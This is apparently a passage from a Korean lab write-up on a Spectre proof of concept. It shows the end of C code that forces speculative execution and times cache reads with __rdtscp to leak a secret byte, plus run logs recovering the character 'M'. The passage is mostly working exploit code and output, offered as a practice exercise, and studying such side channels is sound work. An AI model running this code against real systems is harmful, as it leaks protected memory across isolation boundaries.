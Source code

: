 ```c
    for (volatile int z = 0; z < 100; z++) {}

    x = ((j % 6) - 1) & ~0xFFFF;
    x = (x | (x >> 16));
    x = training_x ^ (x & (malicious_x ^ training_x));
    // OoE를 트리거 하기 위한 쓸데 없는 연산임. 결국 x = malicious_x

    specu(x);
  }

  unsigned long long t, t1, t2;
  int min = 99999, min_val;

  for (i = 0; i < 256; i++) {
    addr = & array2[i * 512];
    t1 = __rdtscp(&junk);
    junk = *addr;
    t2 = __rdtscp(&junk);
    t = t2-t1;
    if (t < min) {
      min = t;
      min_val = i;
    }
    printf("%0d ", t);
  }
  results[0] ^= junk;
  puts("");
  printf("%02x[%c] : %d\n", min_val, min_val, min);
  return 0;
}
```

위 코드를 실행하면 secret의 첫 글자인 M이 나와야 할 것입니다.

### 실행결과

```
delspon@ubuntu:~/labs/practice/spectre$ ./poc
102 94 226 270 302 256 234 230 66 232 230 248 236 410 244 244 216 296 266 232 732 236 364 244 788 286 318 290 418 304 352 222 338 252 638 246 242 216 242 226 224 216 250 230 488 302 226 658 226 298 340 288 262 228 268 236 288 360 392 284 262 242 254 230 310 324 304 332 546 228 288 262 530 582 232 248 230 44 246 318 336 450 246 232 270 228 274 226 258 214 236 226 262 230 230 270 480 254 486 708 236 290 230 228 232 234 222 254 232 250 232 216 282 222 314 258 294 224 330 306 364 294 276 754 250 238 306 514 230 276 244 850 240 218 232 224 224 252 274 226 226 278 244 226 230 410 248 364 362 358 302 372 304 310 294 214 234 230 234 666 236 298 356 312 296 238 242 220 230 272 768 742 324 390 298 242 222 300 272 234 238 268 232 216 224 296 224 258 242 248 242 230 880 412 252 232 260 304 238 324 232 228 242 266 234 280 262 236 280 218 342 338 270 260 236 390 260 234 224 240 216 286 266 378 354 338 436 342 250 322 246 278 220 216 648 242 278 354 532 364 236 328 258 222 230 362 230 250 238 228 234 384 228 294 390 388 
4d[M] : 44
delspon@ubuntu:~/labs/practice/spectre$ ./poc
80 86 280 282 460 246 232 384 80 230 278 266 310 230 252 270 366 304 228 674 232 288 236 376 238 286 224 424 350 362 376 306 422 232 520 282 398 280 254 276 574 236 254 224 250 386 250 466 350 250 640 234 486 250 258 230 326 234 278 454 332 574 242 244 268 234 224 226 244 296 368 224 258 396 286 356 316 44 298 512 1014 258 700 226 264 266 380 290 696 260 268 290 238 234 236 228 344 242 250 822 312 342 294 400 246 244 246 372 228 770 242 228 232 270 370 224 298 228 250 246 336 270 406 244 314 264 282 384 224 228 230 256 254 806 248 258 256 292 244 308 230 242 276 226 324 338 248 360 254 736 236 284 246 388 234 230 242 300 244 314 358 226 300 330 268 362 274 226 294 360 250 356 306 250 242 236 316 270 464 228 232 226 238 416 272 302 326 864 264 348 324 226 240 220 260 276 238 262 254 220 250 508 294 406 292 360 386 330 236 230 266 190 186 224 240 230 230 248 242 278 250 234 236 230 488 254 476 716 340 626 256 250 262 236 238 248 280 238 294 320 254 226 226 232 254 230 262 356 412 242 256 378 230 422 294 254 
4d[M] : 44
delspon@ubuntu:~/labs/practice/spectre$ ./poc
```